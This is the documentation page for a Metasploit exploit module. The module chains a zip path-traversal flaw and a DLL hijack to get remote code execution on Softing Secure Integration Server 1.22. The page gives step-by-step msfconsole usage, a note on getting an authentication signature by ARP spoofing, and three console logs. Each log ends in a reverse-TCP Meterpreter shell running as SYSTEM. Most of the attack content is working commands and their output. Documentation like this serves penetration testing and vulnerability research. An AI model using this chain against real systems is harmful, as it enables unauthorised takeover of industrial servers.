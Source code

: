 ## Description

This module chains 2 vulnerabilities (CVE-2022-1373 and CVE-2022-2334) to achieve authenticated remote code execution against Softing Secure Integration Server v1.22.

This was demonstrated by Steven Seeley and Chris Anastasio of Incite Team as part of Pwn2Own Miami 2022.

In CVE-2022-1373, the restore configuration feature is vulnerable to a directory traversal vulnerablity when processing zip files. When using the "restore configuration" feature to upload a zip file containing a path traversal file which is a dll called ..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\..\\Windows\\System32\\wbem\\wbemcomn.dll. This causes the file C:\\Windows\\System32\\wbem\\wbemcomn.dll to be created and executed upon touching the disk.

In CVE-2022-2334, the planted wbemcomn.dll is used in a DLL hijacking attack when Softing Secure Integration Server restarts upon restoring configuration, which allows us to execute arbitrary code on the target system.

The chain demonstrated in Pwn2Own used a signature instead of a password. The signature was acquired by running an ARP spoofing attack against the local network where the Softing SIS server was located. A username is also required for signature authentication. When using asignature, any provided password is ignored. To use passwords again, `unset SIGNATURE`.

A custom DLL can be provided to use in the exploit instead of using the default MSF-generated one. The DLL must be compiled with the correct exports, which can be found in "external/source/exploits/CVE-2022-2334/template.def". It is assumed that the operator has compiled the DLL correctly for the exploit, if a custom DLL is specified.

## Vulnerable Application

This module was tested against version 1.22, installed on Windows Server 2019 Standard x64. Older versions of the vulnerable application are no longer available for download.

## Verification Steps
Example steps in this format (is also in the PR):

1. Start `msfconsole`
2. Do: `use exploit/windows/http/softing_sis_rce`
3. Do: `set RHOSTS <target_ip>`
4. Do: Optional: `set SSL true` if necessary
5. Do: Optional: `set RPORT <target_port>` if SSL is set
6. Do: `set USERNAME <username>` if necessary. Default is `admin`
7. Do: `set PASSWORD <password>` if necessary. Default is `admin`
8. Do: Optional: `set SIGNATURE <signature>` to use signature authentication. `PASSWORD` will be ignored if `SIGNATURE` is set!
9. Do: Optional: `set DLLPATH <path_to_custom_dll>` to use a custom DLL. It is assumed that the DLL is correctly compiled by the operator for the exploit.
10. Do: `exploit` and get a shell
11. Do: Recommended: delete `C:\\Windows\\System32\\wbem\\wbemcomn.dll` 

## Scenarios
### Default options

```
msf6 > use exploit/windows/http/softing_sis_rce
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/softing_sis_rce) > set RHOSTS 192.168.50.119
RHOSTS => 192.168.50.119
msf6 exploit(windows/http/softing_sis_rce) > exploit

[*] Started reverse TCP handler on 192.168.50.254:4444
[*] 192.168.50.119:8099 - Found Softing Secure Integration Server 1.22.0.8686
[+] 192.168.50.119:8099 - Valid credentials provided
[*] Generating payload DLL...
[*] Created /home/kali/.msf4/local/wbemcomn.dll
[*] Saving configuration...
[*] Saved configuration to /home/kali/.msf4/local/config_download_5fd1e0fd8cd04a22f38eb8db14df68ff.zip
[*] Sending stage (201798 bytes) to 192.168.50.119
[!] Deleting: C:\Windows\System32\wbem\wbemcomn.dll
[-] Unable to delete - stdapi_fs_delete_file: Operation failed: Access is denied.
[*] Meterpreter session 1 opened (192.168.50.254:4444 -> 192.168.50.119:50525) at 2024-04-11 19:52:35 +0800
[!] This exploit may require manual cleanup of 'C:\Windows\System32\wbem\wbemcomn.dll' on the target

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

### Using a signature
```
msf6 > use exploit/windows/http/softing_sis_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/softing_sis_rce) > set RHOSTS 192.168.50.119
RHOSTS => 192.168.50.119
msf6 exploit(windows/http/softing_sis_rce) > set SIGNATURE f7f623f3d40764a03da6c3379919b964
SIGNATURE => f7f623f3d40764a03da6c3379919b964
msf6 exploit(windows/http/softing_sis_rce) > exploit

[*] Started reverse TCP handler on 192.168.50.254:4444
[*] 192.168.50.119:8099 - Found Softing Secure Integration Server 1.22.0.8686
[*] 192.168.50.119:8099 - Authenticating as user admin with signature f7f623f3d40764a03da6c3379919b964...
[+] 192.168.50.119:8099 - Signature f7f623f3d40764a03da6c3379919b964 is valid for user admin
[*] Generating payload DLL...
[*] Created /home/kali/.msf4/local/wbemcomn.dll
[*] 192.168.50.119:8099 - Saving configuration...
[*] Saved configuration to /home/kali/.msf4/local/config_download_5fd1e0fd8cd04a22f38eb8db14df68ff.zip
[*] Sending stage (201798 bytes) to 192.168.50.119
[!] Deleting: C:\Windows\System32\wbem\wbemcomn.dll
[-] Unable to delete - stdapi_fs_delete_file: Operation failed: Access is denied.
[*] Meterpreter session 4 opened (192.168.50.254:4444 -> 192.168.50.119:50618) at 2024-04-11 20:00:11 +0800
[!] This exploit may require manual cleanup of 'C:\Windows\System32\wbem\wbemcomn.dll' on the target

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

### Using a custom DLL
```
msf6 > use exploit/windows/http/softing_sis_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/http/softing_sis_rce) > set RHOSTS 192.168.50.119
RHOSTS => 192.168.50.119
msf6 exploit(windows/http/softing_sis_rce) > set DLLPATH /home/kali/Documents/softing/wbemcomn.dll
DLLPATH => /home/kali/Documents/softing/wbemcomn.dll
msf6 exploit(windows/http/softing_sis_rce) > exploit

[*] Started reverse TCP handler on 192.168.50.254:4444
[*] 192.168.50.119:8099 - Found Softing Secure Integration Server 1.22.0.8686
[+] 192.168.50.119:8099 - Valid credentials provided
[*] 192.168.50.119:8099 - Saving configuration...
[*] Saved configuration to /home/kali/.msf4/local/config_download_5fd1e0fd8cd04a22f38eb8db14df68ff.zip
[*] Sending stage (201798 bytes) to 192.168.50.119
[!] Deleting: C:\Windows\System32\wbem\wbemcomn.dll
[-] Unable to delete - stdapi_fs_delete_file: Operation failed: Access is denied.
[*] Meterpreter session 5 opened (192.168.50.254:4444 -> 192.168.50.119:50696) at 2024-04-11 20:03:43 +0800
[!] This exploit may require manual cleanup of 'C:\Windows\System32\wbem\wbemcomn.dll' on the target

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
